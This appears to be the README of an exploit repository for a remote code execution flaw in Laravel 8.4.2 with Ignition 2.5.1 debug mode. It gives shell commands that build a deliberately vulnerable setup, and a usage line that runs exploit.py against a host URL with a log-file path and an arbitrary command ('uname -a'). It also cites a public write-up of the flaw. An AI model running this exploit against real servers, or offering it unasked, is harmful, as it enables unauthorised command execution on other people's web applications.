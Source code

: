 # laravel-8.4.2-rce

## Setup enviroment
```bash
git clone https://github.com/laravel/laravel.git
cd laravel
git checkout e849812
composer install
composer require facade/ignition==2.5.1
php artisan serve
```

## Usage

```bash
python3 exploit.py http://pwnme.me:8000 /var/www/html/laravel/storage/logs/laravel.log 'uname -a'
```
![](./resource/exploit.png)

## References
[Laravel <= v8.4.2 debug mode RCE](https://www.ambionics.io/blog/laravel-debug-rce)
